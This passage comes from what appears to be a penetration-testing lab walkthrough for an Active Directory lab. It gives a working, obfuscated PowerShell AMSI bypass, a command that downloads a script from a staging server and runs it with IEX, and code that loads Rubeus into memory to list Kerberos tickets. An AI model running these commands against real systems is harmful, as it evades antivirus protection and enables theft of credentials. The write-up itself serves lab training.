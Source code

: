 
- From there we will bypass AMSI and launch Rubeus in memory (just like in part8)

> Off course we could stop the defender anti-virus on the server, but on a real Pentest you didn't want to do that on your customer servers.

- Prepare our server containing Rubeus.exe and our AMSI bypass.

```bash
python3 -m http.server 8080
```

- On the RDP session bypass AMSI :

```bash
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
(new-object system.net.webclient).downloadstring('http://192.168.56.1:8080/amsi_rmouse.txt')|IEX
```

- Now launch Rubeus in memory with execute assembly. 
- First we will list the available tickets :

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.1:8080/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data);
[Rubeus.Program]::MainString("triage");
```

![deleg_unconcstrained_before_coerce.png](/assets/blog/GOAD/deleg_unconcstrained_before_coerce.png)
